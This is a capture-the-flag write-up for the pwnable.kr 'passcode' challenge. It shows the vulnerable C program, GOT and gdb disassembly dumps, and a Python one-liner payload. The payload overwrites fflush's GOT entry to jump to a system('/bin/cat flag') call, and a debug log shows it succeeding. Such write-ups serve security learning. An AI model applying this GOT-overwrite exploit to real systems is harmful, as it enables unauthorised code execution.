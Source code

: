 ```yaml
---
layout: default
title: pwnable_passout_code
parent: pentrue-test
nav_order: 2
---
```


# pwnable pass code

Source :
- [pwnable.kr](http://pwnable.kr/play.php)
- [gcc stack protection](https://www.ibm.com/developerworks/cn/linux/l-cn-gccstack/)
- [gcc stack protection2](https://kknews.cc/zh-tw/tech/38m3eo3.html)
- [linux got](http://blog.csdn.net/linyt/article/details/51635768)
- [linux got](http://www.freebuf.com/articles/system/135685.html)
---
## 程式原始碼

``` c++
#include <stdio.h>
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

---
## solution
### 查got表
```
passcode@ubuntu:~$ readelf  -r passcode

Relocation section '.rel.dyn' at offset 0x388 contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ff0  00000606 R_386_GLOB_DAT    00000000   __gmon_start__
0804a02c  00000b05 R_386_COPY        0804a02c   stdin@GLIBC_2.0
Relocation section '.rel.plt' at offset 0x398 contains 9 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
##使用這個位址
0804a004  00000207 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0
0804a008  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
0804a00c  00000407 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
0804a010  00000507 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0
0804a014  00000607 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a018  00000707 R_386_JUMP_SLOT   00000000   exit@GLIBC_2.0
0804a01c  00000807 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a020  00000907 R_386_JUMP_SLOT   00000000   __isoc99_scanf@GLIBC_2.7
```

### disas login
- 查完之後會發現scanf前的地址-0x10(%ebp) 剛好在'a'*96的後四位...
```gdb
gef➤  x/x $ebp -0x10
0xffffcff8:	0x0804a010
```
- 將位址替換成fflush
- scanf %d 0x080485e3(134514147),此處使很關鍵的地方表示fflush會被替換成
```0x080485e3 <+127>:	movl   $0x80487af,(%esp)```
- '\n' 應該表示是字串結尾
```
0xffffcff0:	0x61616161	0x61616161	0x0804a010	0x4ff54700
0xffffd000:	0x08048800	0xffffd0c4	0xffffd018	0x080486e0
0xffffd010:	0xf7fb23dc	0xffffd030	0x00000000	0xf7e18637
0xffffd020:	0xf7fb2000	0xf7fb2000	0x00000000	0xf7e18637
0xffffd030:	0x00000001	0xffffd0c4	0xffffd0cc	0x00000000
0xffffd040:	0x00000000	0x00000000	0xf7fb2000	0xf7ffdc04
0xffffd050:	0xf7ffd000	0x00000000	0xf7fb2000	0xf7fb2000
0xffffd060:	0x00000000	0xab31c77d	0x979a496d	0x00000000
```
``` gdb
(gdb) disas login
Dump of assembler code for function login:
   0x08048564 <+0>:	push   %ebp
   0x08048565 <+1>:	mov    %esp,%ebp
   0x08048567 <+3>:	sub    $0x28,%esp
   0x0804856a <+6>:	mov    $0x8048770,%eax
   0x0804856f <+11>:	mov    %eax,(%esp)
   0x08048572 <+14>:	call   0x8048420 <printf@plt>
   0x08048577 <+19>:	mov    $0x8048783,%eax
   0x0804857c <+24>:	mov    -0x10(%ebp),%edx
   0x0804857f <+27>:	mov    %edx,0x4(%esp)
   0x08048583 <+31>:	mov    %eax,(%esp)
   0x08048586 <+34>:	call   0x80484a0
   0x0804858b <+39>:	mov    0x804a02c,%eax
   0x08048590 <+44>:	mov    %eax,(%esp)
   0x08048593 <+47>:	call   0x8048430 <fflush@plt>
   0x08048598 <+52>:	mov    $0x8048786,%eax
   0x0804859d <+57>:	mov    %eax,(%esp)
   0x080485a0 <+60>:	call   0x8048420 <printf@plt>
   0x080485a5 <+65>:	mov    $0x8048783,%eax
   0x080485aa <+70>:	mov    -0xc(%ebp),%edx
   0x080485ad <+73>:	mov    %edx,0x4(%esp)
   0x080485b1 <+77>:	mov    %eax,(%esp)
   0x080485b4 <+80>:	call   0x80484a0 
   0x080485b9 <+85>:	movl   $0x8048799,(%esp)
   0x080485c0 <+92>:	call   0x8048450 <puts@plt>
   0x080485c5 <+97>:	cmpl   $0x528e6,-0x10(%ebp)
   0x080485cc <+104>:	jne    0x80485f1 <login+141>
   0x080485ce <+106>:	cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>
   0x080485d7 <+115>:	movl   $0x80487a5,(%esp)
   0x080485de <+122>:	call   0x8048450 <puts@plt>
##調用system
## 0x080485e3 <+127>:	movl   $0x80487af,(%esp)
## 0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave  
   0x080485f0 <+140>:	ret    
   0x080485f1 <+141>:	movl   $0x80487bd,(%esp)
   0x080485f8 <+148>:	call   0x8048450 <puts@plt>
   0x080485fd <+153>:	movl   $0x0,(%esp)
   0x08048604 <+160>:	call   0x8048480 <exit@plt>
End of assembler dump.
```
``` python
print int("0x080485e3", 0)
134514147
python -c "print ('a'*96+'\x04\xa0\x04\x08'+'\n'+'134514147\n')" | ./passcode
 ```
 ### localtest
 ```gdb
     0x80485bc <login+33>       call   0x8048480 <__isoc99_scanf@plt>
    0x80485c1 <login+38>       add    esp, 0x10
    0x80485c4 <login+41>       mov    eax, ds:0x804a040
    0x80485c9 <login+46>       sub    esp, 0xc
    0x80485cc <login+49>       push   eax
 →  0x80485cd <login+50>       call   0x8048420 <fflush@plt> ＃call 0x080485e3
   ↳   0x8048420 <fflush@plt+0>   jmp    DWORD PTR ds:0x804a010
       0x8048426 <fflush@plt+6>   push   0x8
       0x804842b <fflush@plt+11>  jmp    0x8048400
       0x8048430 <__stack_chk_fail@plt+0> jmp    DWORD PTR ds:0x804a014
       0x8048436 <__stack_chk_fail@plt+6> push   0x10
       0x804843b <__stack_chk_fail@plt+11> jmp    0x8048400
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ threads ]────
[#0] Id 1, Name: "passcode", stopped, reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x80485cd → Name: login()
[#1] 0x80486e0 → Name: main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  n
[New process 25845]
process 25845 is executing new program: /bin/dash
Error in re-setting breakpoint 1: Function "login" not defined.
[New process 25846]
process 25846 is executing new program: /bin/cat
lfagqqqqqq!!!!\n
[Inferior 3 (process 25846) exited normally]
enter passcode1 : Now I can safely trust you that you have credential :)
[*] No debugging session active
gef➤  

 ```